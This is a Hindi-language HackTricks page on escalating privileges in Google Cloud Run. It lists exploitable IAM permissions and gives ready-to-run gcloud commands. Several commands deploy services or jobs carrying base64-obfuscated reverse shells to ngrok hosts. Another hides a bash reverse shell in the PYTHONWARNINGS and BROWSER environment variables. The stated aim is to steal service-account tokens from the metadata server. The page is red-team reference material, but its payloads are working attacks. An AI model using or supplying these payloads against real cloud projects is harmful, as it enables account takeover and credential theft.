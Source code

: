 # GCP - Run Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Run

Cloud Run के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

एक हमलावर के पास **मनमाने कोड को चलाने वाली एक रन सेवा बनाने** के लिए ये अनुमतियाँ हैं (मनमाना Docker कंटेनर), इसे एक सेवा खाता संलग्न करें, और कोड को **मेटाडेटा से सेवा खाता टोकन को एक्सफिल्ट्रेट** करने के लिए बनाएं।

इस विधि के लिए एक एक्सप्लॉइट स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) मिल सकती है और Docker इमेज [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage) मिल सकती है।

ध्यान दें कि जब `gcloud run deploy` का उपयोग किया जाता है तो केवल सेवा बनाने के बजाय **इसकी `update` अनुमति की आवश्यकता होती है**। एक [**उदाहरण यहाँ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh) देखें।

### `run.services.update` , `iam.serviceAccounts.actAs`

पिछले वाले की तरह लेकिन एक सेवा को अपडेट करते समय:
```bash
# Launch some web server to listen in port 80 so the service works
echo "python3 -m http.server 80;sh -i >& /dev/tcp/0.tcp.eu.ngrok.io/14348 0>&1" | base64
# cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg==

gcloud run deploy hacked \
--image=ubuntu:22.04 \  # Make sure to use an ubuntu version that includes python3
--command=bash \
--args="-c,echo cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

अपने आप को क्लाउड रन पर पिछले अनुमतियाँ दें।

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

कमांड में निर्दिष्ट सेवा खाते को चुराने के लिए एक रिवर्स शेल के साथ एक नौकरी लॉन्च करें। आप [**यहां एक एक्सप्लॉइट पा सकते हैं**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

पिछले की तरह, एक **नौकरी को अपडेट करना और SA को अपडेट करना** संभव है, **कमांड** और **इसे निष्पादित करना**:
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### `run.jobs.setIamPolicy`

अपने लिए Cloud Jobs पर पिछले अनुमतियाँ दें।

### `run.jobs.run`, `run.jobs.runWithOverrides`, (`run.jobs.get`)

किसी नौकरी के निष्पादन के env वेरिएबल्स का दुरुपयोग करें ताकि मनमाना कोड निष्पादित किया जा सके और कंटेनर की सामग्री (स्रोत कोड) को डंप करने और मेटाडेटा के अंदर SA तक पहुँचने के लिए एक रिवर्स शेल प्राप्त किया जा सके:

{% code overflow="wrap" %}
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
{% endcode %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
